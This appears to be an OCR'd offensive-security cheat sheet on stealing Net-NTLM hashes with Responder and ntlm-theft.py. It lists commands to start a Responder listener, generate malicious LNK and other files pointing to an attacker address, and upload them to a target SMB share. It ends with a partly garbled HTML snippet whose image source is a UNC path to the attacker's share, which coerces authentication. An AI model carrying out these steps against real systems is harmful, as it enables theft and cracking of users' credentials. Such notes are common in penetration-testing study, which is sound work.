 ## Net-NTLM Hash stealing with Responder

## Tools synergizing with Responder: ntlm-theft.py

### Requirements: The user you want to escalate to should react with your malicious file/responder SMB server in a way that it calls back to your responder listener to dump his Net-NTLM hash to crack with hashcat.

### Usage:

#### sudo responder -I tun0 (Turn on responder)

## There are various ways to steal hashes with responder, but they have all similar philosophy behind the technique

### .LNK Files

#### 1) python3 ntlm-theft.py -g all -s OUR_IP -f FOLDER (Generates any malicious file it can make (LNK included) all inside the specified folder name)

#### 2) sudo responder -I tun0 (Start responder)

#### 3) Upload malicious file to the target SMB server/target machine (Depends on the context of the use case your are dealing with)

#### 4) PROFIT

### .CHM Files

#### 1) Create an HTML document that points to your SMB server

#### <html<
####   <body<
####     <img src=\\OUR_IP\share\WHATEVER.png /<
####        </body<
#### </html<
